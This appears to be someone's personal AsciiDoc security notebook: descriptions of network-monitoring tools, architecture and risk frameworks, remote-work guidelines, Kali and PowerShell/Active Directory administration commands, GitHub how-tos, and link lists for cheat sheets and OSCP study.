. https://skorks.com/2009/08/different-types-of-encoding-schemes-a-primer/[Different Types Of Encoding Schemes – A Primer]
. https://github.com/secnonsense/decode.py[Python Decoder]

=== Network Tools

==== Security Onion
https://securityonion.net/[Security Onion] is a free and open source Linux distribution for intrusion detection, enterprise security monitoring, and log management. It includes Elasticsearch, Logstash, Kibana, Snort, Suricata, Zeek (formerly known as Bro), Wazuh, Sguil, Squert, CyberChef, NetworkMiner, and many other security tools. The easy-to-use Setup wizard allows you to build an army of distributed sensors for your enterprise in minutes!

==== Suricata
https://suricata-ids.org/[Suricata] is a free and open source, mature, fast and robust network threat detection engine.

The Suricata engine is capable of real time intrusion detection (IDS), inline intrusion prevention (IPS), network security monitoring (NSM) and offline pcap processing.

Suricata inspects the network traffic using a powerful and extensive rules and signature language, and has powerful Lua scripting support for detection of complex threats.

With standard input and output formats like YAML and JSON integrations with tools like existing SIEMs, Splunk, Logstash/Elasticsearch, Kibana, and other database become effortless.

Suricata’s fast paced community driven development focuses on security, usability and efficiency.

The Suricata project and code is owned and supported by the Open Information Security Foundation (OISF), a non-profit foundation committed to ensuring Suricata’s development and sustained success as an open source project.

==== Bro/Zeek
https://zeek.org/[Zeek] is an open source software platform that provides compact, high-fidelity transaction logs, file content, and fully customized output to analysts, from the smallest home office to the largest, fastest research and commercial networks.

Zeek helps organizations understand how their network is being used, supporting security, performance, audit, and capacity missions.

Thanks to its network optimized programming language, vibrant open source community, and global footprint, Zeek provides the data and insights needed to tackle today’s toughest network challenges, in the enterprise, cloud, and industrial computing environments.

==== RITA
https://www.blackhillsinfosec.com/projects/rita/[RITA] stands for Real Intelligence Threat Analytics.   It helps you to not look at individual TCP streams, but rather look at the communication as it relates to much larger timeframes.

RITA's specific goal in life is frequency analysis and beconing detection.  It also does black list analysis, long connection analysis. It uses median and average distribution of a mean.

==== Ntop
https://www.ntop.org/[ntop] started as an open source project in 1998 whose goal was to create a simple yet effective web-based traffic monitoring platform. Many things have changed since then, including the nature of the traffic being analyzed, operating systems running on PCs, and the type of users. ntop changed too and from a single-project centric effort, we evolved into a full fledged research company whose goal is still the original one. Namely innovate in network monitoring using commodity hardware and open-source operating systems. As we benefit from the open-source community, we feel obliged to return to the community what we develop, so that many others, and not just us, can benefit too.

The industry is full of hardware companies who bundle their products with open-source products, just to offer a sale argument for their products. Or software companies who depend on other (either hardware or software companies) for running their applications. ntop does not belong to any of these categories. We are not hardware-vendor dependent, and our software does not rely on third-party companies who might impose high license fee or decide to send us (and thus our users) out of business. We are developing both software that better exploit commodity hardware (so we’re not vendor locked) and that runs on the operating system kernel, and monitoring applications. We control the whole lifecycle, optimize every single bit, and provide you support for all our components, as we have developed them and nobody knows them better than us. This is quite rare on this market, and thus we have the ability to optimize the software for the hardware we use, and create better products. Very few other companies such as Ferrari, Ducati or Apple can do that (we’re small but we believe we belong to this club).

==== Coffee

==== Wireshark

=== Reverse Engineering

Link: https://github.com/0xZ0F/Z0FCourse_ReverseEngineering
Link: https://github.com/wtsxDev/reverse-engineering

=== References
. https://www.youtube.com/watch?v=DuIXbz30mqk[Think You're Compromised? What Do We Do Next?]

<<<
== Enterprise Architecture
Source: https://www.youtube.com/watch?v=NUD-LXUE4tM 

*Enterprise* is any organization that is large or small with a collaborative collection of sub-organizations with a shared set of objectives.

*Architecture* is a designed structure of something.  A description of the structure (components) and behaviors (Processes) of a system.  It is also an activity required to produce such a description.

*Enterprise Architecture* is documentation describing the structure and behaviour of an enterprise including its information systems.  Also a process for describing an enterprise(including its information systems), then planning and governing changes to improve the integrity and flexibility of the enterprise.

Frameworks provide guidelines on how to implement enterprise architecture.  Frameworks address following areas:
* Content (strcuture, metamodel)
* Process (activities)
* Organization (roles, people)

Some of the frameworks are:

* TOGAF (covers all three, content, process, and organization)
* Zachman (Purely covers content)
* SABSA
* DODAF
* MODAF

Large organizations are complex, hence they can be broken down into following typical domains

. Business (Why organization exisit, objectives, goals, strategic thinking, capabilities, processes, functions, organizatinal structure)
. Data
. Application(s)
. Technology

Following domains cut across the typical domains:

. Security
. Compliance


*Architecture Activities* typically when you are performing any sort of change, you have to document the current state and future state.  This represents the strategic vision of the organization, where they want to be in 3-5 years time.

Enterprise architecture is about overseeing these changes by defining various architecture principles and standards.  Architects then govern those changes to ensure that the standards and principles are being followed.

=== SABSA
SABSA is a framework that supports the business in reaching its goals.  It is the leading methodology for developing business operational risk-based architectures.  SABSA stands for Sherwood Applied Business Security Architecture.

It provides a framework for developing risk driven enterprise information security and information assurance architectures.

It also helps to deliver security infrastructure solutions that help critical business initiatives.

The SABSA methodology provides guidance for aligning architecture with business value, it also addresses a critical need for greater integration between security and enterprise architecture within organizations.

With SABASA organizations can achieve that important risk reward balance using a range of frameworks, models, methods, and process to manage risk and measure performance.

The SABSA model is the key to this and covers the whole lifecycle of operational capabilities.  The SABSA model has six layers:

. Contextual Architecture: The Business View (Business wisdom and business decision making)
. Conceptual Architecture: The Architect's vision (The 'big picture', business attributes profiel and risk objectives)
. Logical Architecture: The Designers Vision (Information, services, processes, applications)
. Physical Architecture: The builders/constructors view(Data mechanisms, infrastructure, platforms)
. Component Architecture: The Trademan's View (Products, Tools, Specific Standards, Technologies)
. Security Services Management Architecture: The Service Manager's view (Service management activities, processes and monitoring)

Each of the layers of the architecture model are supported by a vertical analysis based on six key questions

* What
* Why
* How
* Who
* Where
* When

The SABSA framework is flexible, scalable and applicable to any industry sector.  Instead of replacing other risk based standards, it can be combined with TOGAF, COBIT and ITIL to create an integrated compliance framework.

SABSA provides organization with "enterprise operational risk management architecture" that can be completely tailored to a specific business model. 

SABSA's governance model provide a control feedback loop

. Strategy & Planning
. Design
. Implement
. Management & Measure

<<<
== NIST Cyber Security Framework(CSF)

Key functions are

Identify:: involves determining your IT risks and securing the necessary budget and resources to defend your digital resources. Your decisions should be based on the contextualized threat intelligence you collect. In addition to assessing internal IT risk, this goal should include analyzing the security competence of third-party vendors and any customers with which you exchange data. It’s critical to identify those that represent an elevated risk to your organization’s systems and data. It’s also important to bring in threat intelligence on the risks your competitors face because you likely face similar threats.

Protect:: is about deploying the required security controls (technologies and processes) to defend your digital assets, and then validating that these controls align to the risks you identified. For example, controls should be applied to set up defenses against exploit kits, as well as undisclosed zero-day and embargoed vulnerabilities, as identified by your threat intelligence platform. You also need to safeguard against the exploitation of high-risk vulnerabilities in your technology stack.

Detect:: revolves around your ability to block attacks before they impact digital assets. Threat intelligence helps by enabling you to identify and research the evolution and trends of malware families with high risk to your organization. In addition to identifying the security patches to apply, you will also gain intelligence on which systems are most susceptible and which are being actively targeted and exploited.

Respond:: refers to how fast your security team reacts to breaches; even the strongest security postures do not offer a 100% guarantee that cyberattacks will not succeed. Threat intelligence assists in the response process by evaluating the data exposure and the digital asset damage your organization is facing. This can then be reported to all affected parties and stakeholders — not only for remediation teams, but also for non-technical personnel who may need to prepare for the impact on day-to-day operations and the potential impact on vendors, clients, and perhaps even the overall market in which you operate.

Recover:: is all about how quickly the damage inflicted upon the organization’s technology stack and surrounding ecosystem can be mitigated, including any and all operations that must be restored as the security incidents are being closed out. Threat intelligence helps pinpoint the specific measures the security team should take in order to quarantine infected systems and inoculate the malicious elements coursing through the environment. The ultimate goal in the case of a breach, of course, is to quickly and safely restore the digital assets back to fully functioning systems with all security measures intact.

Top two are proactive measures, and bottom three are reactive measures.

<<<
== Security Architecture

=== Network Architecture

=== Application Architecture

=== System Architecture

<<<
== Dev, Sec, Ops

Development, Operations, and Security operate as silos. 

*CiCd* or Continuous Integration and Continuous Delivery is key for *DevSecOps*

image::knowyourapplication.png[title="Know your application"]

Some activities to consider for DevSecOps:

* Threat Modeling
* Attack Surface Evaluation
* Static & dynamic code analysis
* Penetration Testing
* Security Code Reviews
* Fuzz Testing

Teams who are considering DevSecOps should think about:

* Frameworks & Tools
* Automating core security tasks
* Embedding securit controls and processes

Five principles for Securing DevOps

* Automate Security In
* Integration to fail quickly
* No false Alarm
* Build Security Champions
* Keep Operational Visibility



=== OWASP Top 10 App Sec Risks

. Injection
. Broken Authentication
. Sensitive Data Exposure
. XML External Exposures (XXE)
. Broken Access Control
. Security Misconfiguration
. Cross Site Scripting
. Insecure Deserialization
. Using component with known vulnerabilities
. Insufficient Logging/Monitoring

=== Real-Word Top 10 Attacks

. Direct Object Reference
. Forceful Browsing
. Null Byte Attack
. Command Injection
. Feature Abuse
. Evasion Techniques
. Subdomin Takeover
. Misconfiguration
. Cross Site Scription
. SQL Injection 

<<<
== Governance, Risk, & Compliance

A documented process must be followed to ensure compliance to security policy and to highlight risks that might be introduced when security policy requirements are not adhered to.  Some of the GRC functions are:

* Enterprise Risk Management
* IT Risk Management
* Integrated Risk Management
* Operational Risk Management
* Compliance
* Enterprise GRC Management
* Vendor/Third-Party Risk Management
* Business Continuity
* Financial Audit

=== Enterprise Risk Management

* Not necessarily covered by insurance
* Multi-dimensional assessment
* Analyzes material risks and how they relate
* Spans the entire organization ("holistic")
* Proactive & continuous
* Considers both upside and downside
* Focuses on business goals, adding value and more
* Embedded in culture and mindset 

<<<
== Kali Reference

. Add user and give root privs
.. login as root and the user

	useradd -m <username>

.. Assign a password to the user

	passwd <username>

.. Add a user to sudoers file

	usermod -a -G sudo <username>

.. Change user shell to bash

	chsh -s /bin/bash <username>

. Shrink partition
.. Login to your system as root and open a terminal window.  Lets assume the paritition is /dev/xxx/yyy and is currently 40G, and you want to reduce it to 30G

	df -k
	unmount /dev/xxx/yyy
	e2fsck -fy /dev/xxx/yyy
	resize2fs /dev/xxx/yyy 30G
	lvreduce -L 30G /dev/xxx/yyy
	resize2fs /dev/xxx/yyy
	mount /dev/xxx/yyy

. Expand partition

Lets assume the file system is /dev/xxx/yyy. Current size is 10G and you want to add another 10G
.. Show space in current Volume group, look for Free PE/Size and make note of it, in our case it

	vgdisplay

.. Extend the logical volume

	lvextend -L+10G /dev/xxx/yyy

.. Resize the filesystem

	resize2fs /dev/xxx/yyy

<<<
== Business Resilience
For a business to be sustainable it has to be able to bear any hardship it faces.  These hardships or risks can be financial, environmental, labor, suppliers, intellectual property , and technical.  Hence every business has to ensure it has documented plans on how to address the risks and become resilient.

In order for a business to be resilient, it has to ensure it follows Business Continuity Management(BCM) strategies and methodologies. BCM itself can be split into two general areas Business Continuity and Disaster Recovery.

=== Business Continuity
Some of the strategies and methodologies that a business implements are directly associated to 

==== Conference Call Guidelines
. Use a pre-conferencing/green room/waiting room (This is already configured for Teams Meetings)
. Don't re-use conference access codes (This is already configured for Teams Meetings)
. Don't record the meeting unless necessary
. Do a role call to ensure only invited attendees are on the call
. Before sharing your screen ensure you close all confidential files/applications
. If it is a sensitive meeting, and you record it, ensure the recording is encrypted and stored in a location with limited user access
. If the recording is saved on the web platform ensure you download the recording and delete it from the web platform

*References*
. NIST Guidance: https://www.nist.gov/system/files/documents/2020/03/17/Conference%20Call%20Security%20Graphic.pdf

==== Remote Working Guidelines
*Employees*

. Greet your team members using TEAMS chat feature
. Use camera when in meetings
. When in doubt call the team member
. Keep the team connected using Teams Chat and other means as per team norms.
. Over communicate
. Lock your computer when you walk away from your computer  (Windows Key + L)
. Inform you team if you are going to be away from your computer for an extended period
. Avoid multitasking

*Leader*

. Establish team norms:
.. Do we meet more frequently as a team? When? How long?
.. If we use an online meeting platform, does everyone turn on their video camera?
.. How do we ensure people are present and not multitasking?
.. What is the recommended response time to a text or email? Should we use the phone more?
.. How will we share sensitive information? Email? 
. Ensure your team knows what is the best method to contact you
. Conduct Morning Huddles
. Frequent Check-ins
. Use Teams to share for quick feedback

*References*

. https://www.forbes.com/sites/danpontefract/2020/03/01/in-the-wake-of-coronavirus-heres-how-to-lead-remote-employees/#1d44ec7152a4
. https://www.timedoctor.com/blog/run-a-remote-team/
	


=== Disaster Recovery


<<<
== Powershell Reference

. https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html[Powershell Logging]
. https://github.com/PowerShell[Powershell 7]
. http://shop.oreilly.com/product/0636920024132.do[Windows Powershell Cookbook]
. https://www.youtube.com/watch?v=plqpmZruOYk[Complete Powershell in one video-beginner to professional powershell scripting]
. https://adamtheautomator.com/get-adobject/[Get-adobject]
. https://lazywinadmin.com/[Lazy Windows Administrator]
. https://www.windowscentral.com/how-create-and-run-your-first-powershell-script-file-windows-10[How to create and run a PowerShell script file on Windows 10]
. https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/command-line-process-auditing[Command Line Process Auditing]
. Configure IP Address on a computer

	New-NetIPAddress -InterfaceAlias Ethernet -IPAddress 10.10.10.10 -PrefixLength 24 -DefaultGateway 10.10.10.1

. Configure DNS on a computer

	Set-DNSClientServerAddress -InterfaceAlias "Ethernet" -ServerAddress 172.16.0.10

. IP v6 - Current Status

	Get-NetAdapterBinding -ComponentID ‘ms_tcpip6’

. IP v6 - Disable 
	
	Get-NetAdapterBinding -ComponentID ‘ms_tcpip6’ | Disable-NetAdapterBinding -ComponentID ‘ms_tcpip6’ -PassThru

. Rename computer

	Rename-Computer <new name>

. Restart computer

	Restart-Computer

. Shutdown computer

	Shutdown-Computer

. Set log application, system, and security log files to 100MB and roll over after 21 days

	limit-eventlog -logname "application" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 
	limit-eventlog -logname "security" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 
	limit-eventlog -logname "system" -maximumsize 100MB -retentiondays 21 -overflowaction overwriteolder 

. Enable Remote Desktop

	set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0

. Add firewall rules to allow Remote Desktop traffic

	Enable-NetFirewallRule -DisplayGroup “Remote Desktop”

. Check for updates and install updates

	get-hotfix|grid-view
	Install-Module -Name PSWindowsUpdate
	Get-Package -Name PSWindowsUpdate
	Install-WindowsUpdate -MicrosoftUpdate -AcceptAll -AutoReboot

. Set Date & Timezone

	set-date "1/1/2020 10:10 PM"
	(get-WmiObject win32_timezone).caption
	TZUTIL /s "Eastern Standard Time"

. Add a first domain controller

	Install-windowsfeature -name AD-Domain-Services -IncludeManagementTools
	Get-Command -Module ADDSDeployment
	Create Root Domain: Install-ADDSForest -DomainName “corp.momco.com”

. Add DNS Primary Zone

	Add-DnsServerPrimaryZone -NetworkID 192.168.64.0/24 -ZoneFile “192.168.64.2.in-addr.arpa.dns”
	Add-DnsServerForwarder -IPAddress 8.8.8.8 -PassThru

. Confirm DNS is working

	Test-DnsServer -IPAddress 192.168.64.2 -ZoneName "corp.momco.com"

. Add computer to a domain

	Add-Computer -DomainName <domain name>

. Add a second domain controller 

	Add-WindowsFeature AD-Domain-Services
	Install-ADDSDomainController -InstallDns -Credential (Get-Credential "CORP\Administrator") -DomainName "corp.contoso.com"

. Locate FSMO Roles

	Get-ADForest DOMAINNAME | FT SchemaMaster
	Get-ADForest DOMAINNAME | FT DomainNamingMaster
	Get-ADDomain DOMAINNAME | FT PDCEmulator
	Get-ADDomain DOMAINNAME | FT InfrastructureMaster
	Get-ADDomain DOMAINNAME | FT RIDMaster

. Add FSMO Role to a new computer

	Move-ADDirectoryServerOperationMasterRols - Identity NEW-DC -OperationMasterRole RIDMaster,InfrastrcutureMaster,DomainNamingMaster -Force

. List all accounts where password is not set to expire

	Search-ADAccount -PasswordNeverExpires | out-gridview

. List all accounts not used in last 90 days & Export to CSV

	Import-Module ActiveDirectory
	Search-ADAccount –AccountInactive -TimeSpan 90.00:00:00 -UsersOnly | Select -Property Name,DistinguishedName,LastLogonDate |	Export-CSV "C:\\InactiveADUsers.csv" -NoTypeInformation -Encoding UTF8

. Create a VM

	New-VM -MemoryStartupBytes 2048MB -Name VMNAME -path "d:\folder" -VHDPath "d:\folder\name.vhdx"

. Assign VM Network

	Get-VM -Name VMNAME | Get-VMNetworkAdapter | Connect-VMNetworkAdapter -Swtichname 'SWITCHNAME'

. Checkpoint a VM

	Get-VM | Checkpoint-VM

. Ping alternate

	Test-NetConnection
	Test-NetConnection 8.8.8.8

. Traceroute alternative

	Test-NetConnection www.bing.com -traceroute

. Telnet to a port

	Test-NetConnection www.bing.com -Port 80
	Test-NetConnection smtp.com -Port 25

. View All services in a GUI

	Get-Service | Out-Gridview

. Service management

	Stop-Service <service name>
	Start-Service <service name>
	Restart-Service <service name>
	Set-Service <service name> <-Change Service properties

. Enable/Disable Firewall

	set-netfirewallprofile -profile domain,public,private -enabled true/false

. Add a firewall rule

	New-NetFirewallRule -DisplayName "Allow Inbound Port80" -Direction Inbound -LocalPort 80 -Protocol TCP -Action Allow
	New-NetFirewallRule -DisplayName "Block Outbound Port80" -Direction Outbound -LocalPort 80 -Protocol TCP -Action Block

. Password Reset

	$newpwd = ConvertTo-SecureString -String "P@ssw0rd" -AsPlainText -Force
	Set-ADAccountPassword ACCOUNTNAME -NewPassword $newpwd -Reset
	Set-ADAccountPassword ACCOUNTNAME -NewPassword $newpwd -Reset -PassThru | Set-ADuser -ChangePasswordAtlogon $True

. Install RSAT Tools:

	Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability -Online
	or
	ADD-WindowsFeature RSAT-Role-Tools

. Change color of error text:

	$host.PrivateData.ErrorForegroundcolor = 'green'

. Help for all commandlets with service in the name:  
	
	help *service*

. Update help with latest modifications from Microsoft:

	Update-Help

. Show all help about a commandlet:
	
	Help <cmdlet> -full

. Show online help about a commandlet:
	
	Help <cmdlet> -online

. To show a gui for a cmdlet:
	
	Show-command <cmdlet>

. Show event log settings:
	
	get-eventlog -list

. Show top ten biggest processes:

	Get-process| sort-object -property pm -descending | select-object -first 10

. Get all objects in a cmdlet:
	
	Get-service|get-member

. Show services that are running:
	
	Get-service| where-object -FilterScript { $_.Status -eq 'Running'}

. Gsv is alias for get-service
. ? Is alias for where
. Find out what cmdlet an alias is:

	Help gsv or get-alias gsv

. List all alias:

	Gal

. The Get-PSProvider cmdlet gets the Windows PowerShell providers in the current session. You can get a particular drive or all drives in the session. Windows PowerShell providers let you access a variety of data stores as though they were file system drives. The Get-PSDrive cmdlet gets the drives in the current session. You can get a particular drive or all drives in the session. This cmdlet gets the following types of drives:
.. Windows logical drives on the computer, including drives mapped to network shares.
.. Drives exposed by Windows PowerShell providers (such as the Certificate:, Function:, and Alias: drives) and the HKLM: and HKCU: drives that are exposed by the Windows PowerShell Registry provider.
.. Session-specified temporary drives and persistent mapped network drives that you create by using the New-PSDrive cmdlet.
Beginning in Windows PowerShell 3.0, the Persist parameter of the New-PSDrive cmdlet can create mapped network drives that are saved on the local computer and are available in other sessions. For more information, see New-PSDrive. Also, beginning in Windows PowerShell 3.0, when an external drive is connected to the computer, Windows PowerShell automatically adds a PSDrive to the file system that represents the new drive. You do not need to restart Windows PowerShell. Similarly, when an external drive is disconnected from the computer, Windows PowerShell automatically deletes the PSDrive that represents the removed drive.

. Show contents of a file:

	Get-content or gc

. List modules available:

	Get-module -List Available

. To import a module: 
	
	import-module <modulename>

. To list all commands available in a module: 
	
	get-command -module <modulename>

. Add roles & Features

	Install-WindowsFeature -IncludeAllSubfeature -IncludeManagementTools File-Services

. Install .Net Framework

	Install-WindowsFeature Net-Framework-Core -source d:\sources\sxs

. Repair trust relationship of a computer

	test-computersecurechannel -credential domain\admin -Repair

. To list all computers in AD:

	get-adcomputer -filter *|select -ExpandProperty name

. List services running on all computers in your domain:

	invoke-command -ComputerName (get-adcomputer -filter *|select -ExpandProperty name) -scriptblock { get-service }

. Implicit Remoting:

	Establish a session with remote computer: $session = New-PSSession -ComputerName ABCD
	Invoke-Command -Session $session -ScriptBlock { import-module activedirectory }
	Import-PSSession -Session $session -Module ActiveDirectory
	Close session: get-PSSession | remove-PSSession

. Invoke a powershell session on a remote computer:

	Enter-PSSession -ComputerName ABCD

. Invoke Troubleshooting pack:

	import-module troubleshootingpack
	get-troubleshootingpack c:\windows\diagnostics\system\Networking
	get-troubleshootingpack c:\windows\diagnostics\system\Networking| Invoke-TroubleshootingPack

. Replacement for ipconfig /all

	get-NetIPConfiguration

. Find out network adapter names and statistics

	get-NetAdapter
	get-NetAdapterStatistics

<<<
== Github Reference

=== Adding a new repository to github.com

* On the github.com page, click on 

image::github1.png[]
* Select "New Repository" 

image::github2.png[]
* Provide repository name in the provided field 

image::github3.png[]
* Click to create repository 

image::github4.png[] 
* Follow instructions on the page displayed on you local computer which has ssh access to github.

=== Creating a local folder on your computer

* Change Directory to the root folder where you want the GIT repository to be stored
* Clone the respository

	git clone <repository URL from git page>

=== What to do after renaming your github username?
After you have changed your github.com user name, you will have to relink all your local github repositories to the github on the web.  Here are the steps:

. Open GitCMD or GitBASH
. Change directory to the repository where you have cloned the respository from the web
. Check where does this repository points:

	git remote -v

image::github-repo-now.png[]
. Change to new github repository

	git remote set-url origin git@github.com:secprivrisk/CyberSecurity.git

. Confirm the change by issuing the command:

	git remote -v

image::github-repo-new.png[]
<<<
== Cheat Sheets
. https://www.malwarearchaeology.com/cheat-sheets[Cheat Sheets to help you in configuring your systems]
. https://cheatography.com/tag/ir/[IR Cheat Sheets]
. https://digital-forensics.sans.org/community/cheat-sheets[SANS DFIR Community: Cheat Sheets]
. https://zeltser.com/cheat-sheets[IT and Information Security Cheat Sheets]
. https://www.sans.org/blog/4-cheat-sheets-for-malware-analysis/[4 Cheat Sheets for Malware Analysis]
. https://www.andreafortuna.org/2017/07/03/volatility-my-own-cheatsheet-part-2-processes-and-dlls/[Volatility Cheatsheet]


<<<
== Ethical Hacking References

=== By Mayur Parmar
Want resource for OSCP?
here is the material to clear OSCP.
All the best for your journey.
How to prepare for OSCP complete guide 

Below are 5 skills which you have to improve before registering for OSCP
> Learn basic of Computer Network, Web application, and Linux
> Learn Bash and Python scripting
> Enumeration is key in OSCP lab, I repeat Enumeration is key in OSCP Lab and in real world too
> Download vulnerable VM machines from vulnhub
> Buffer Overflow (BOF) exploitation

Below are the free reference before registration of OSCP 
> https://lnkd.in/fBcwnBF
> https://lnkd.in/fXtRZK5
> https://lnkd.in/fcHg29E
> https://lnkd.in/f2-wBQJ
> https://lnkd.in/fkFNATW

Below are the reference for Buffer overflow and exploit developmet for OSCP
> https://lnkd.in/fmmU_Uz
> https://lnkd.in/fZDh9Vd

For Bash Scripting 
> https://lnkd.in/fn2wpZ5

Transferring Files from Linux to Windows & post-exploitation
> https://lnkd.in/fSJ44Eb
> https://lnkd.in/fJUGq3s

Privilege Escalation:
> https://lnkd.in/f4jsZfa
> https://lnkd.in/fFAeE3g
> https://lnkd.in/fUx6HZQ
> https://lnkd.in/fDNJGHw
> https://lnkd.in/fqPJzMP
> https://lnkd.in/fixKjR6
> https://lnkd.in/f2Nz3_a
> https://lnkd.in/fpZcJT9


Some tips and tricks for OSCP Exam & write-ups.
https://lnkd.in/fWugM5F
https://lnkd.in/fs_dDJr
https://lnkd.in/fzh5M_V
https://lnkd.in/fV3m55b
https://lnkd.in/faWFaea
https://lnkd.in/fiFGmV9
https://lnkd.in/fShfYRe
https://lnkd.in/f9mKEgu
https://lnkd.in/fjuxWZ5
https://lnkd.in/ffett24
https://lnkd.in/fivVvaz
https://lnkd.in/f973szJ
https://lnkd.in/f8ec7z5



=== By Pethuraj M

Following references were posted on LinkedIn by https://www.pethuraj.in https://www.pethuraj.com 

• 𝗔𝘄𝗲𝘀𝗼𝗺𝗲 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀 𝗙𝗼𝗿 𝗟𝗲𝗮𝗿𝗻𝗶𝗻𝗴 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 & 𝗣𝗲𝗻𝘁𝗲𝘀𝘁𝗶𝗻𝗴
http://tiny.cc/s5Ig

• 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀-𝗳𝗼𝗿-𝗹𝗲𝗮𝗿𝗻𝗶𝗻𝗴-𝗛𝗮𝗰𝗸𝗶𝗻𝗴
http://tiny.cc/7OiG

• 𝗘𝘁𝗵𝗶𝗰𝗮𝗹 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 & 𝗖𝘆𝗯𝗲𝗿 𝘀𝗲𝗰𝘂𝗿𝗶𝘁𝘆 𝗕𝗶𝗯𝗹𝗲
http://tiny.cc/0wGg

• 𝗖𝘆𝗯𝗲𝗿 𝗦𝗲𝗰𝘂𝗿𝗶𝘁𝘆 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀
http://tiny.cc/m6Ig

• 𝗔𝘄𝗲𝘀𝗼𝗺𝗲 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 𝗥𝗲𝘀𝗼𝘂𝗿𝗰𝗲𝘀
http://tiny.cc/pqJg

• 𝗲𝘁𝗵𝗶𝗰𝗮𝗹-𝗵𝗮𝗰𝗸𝗶𝗻𝗴-𝗿𝗲𝗽𝗼𝘀𝗶𝘁𝗼𝗿𝘆
http://tiny.cc/IqYg

• 𝗙𝗿𝗲𝗲 𝗘𝘁𝗵𝗶𝗰𝗮𝗹 𝗛𝗮𝗰𝗸𝗶𝗻𝗴 𝗲𝗕𝗼𝗼𝗸𝘀
http://tiny.cc/b6Rg


#cybersecurity #hackerone #bugcrowd #wapt #pentest #security #hacking #pentesting #bugbounty #owasp #burpsuite #ceh #oscp #ethicalhacking #infosec

== Terms Used
[horizontal]
ATT&CK:: Adversatial Tactics Techniques & Common Knowledge
APT:: Advanced Persistent Threat
CTF:: Capture The Flag
CTI:: Cyber Threat Intelligence
EDR:: Endpoint Detection and Response
ICS:: Industrial Conrol Systems
IOC:: Indicators of Compromise
LLMNR:: Link Local Multicast Name Resolution
Med-jacking:: is a new kind of cybersecurity threat to health care systems. Medjacking involves hacking into medical devices using backdoors to access software on the device.
mDNS:: Multicast Domain Name System
MDR:: Managed Detection and Response
MSSP:: Managed Security Services Provider
OCG:: Organized Criminal groups
OSINT:: Open Source Inteligence Tools: Gathering odata from open source or readily and freely available sources
PLC:: Programmagle Logic controller
SIGINT:: Signals Intelligence is the act of gathering information in transit by interception.
Smishing:: Phishing through SMS
TTP:: Techniques, Tactics, Procedures
UEBA:: User Entity Behaviorial Analytics
Vishing:: Phishing through voice calls
WPAD:: Web Proxy Auto Discovery Protocol

<<<
[bibliography]
== References

. Writing Position Papers: http://www.studygs.net/wrtstr9.htm 
. Cover Page graphic: https://www.pinterest.com/pin/352758583290504850/ 
. What is Malware? https://www.avg.com/en/signal/what-is-malware



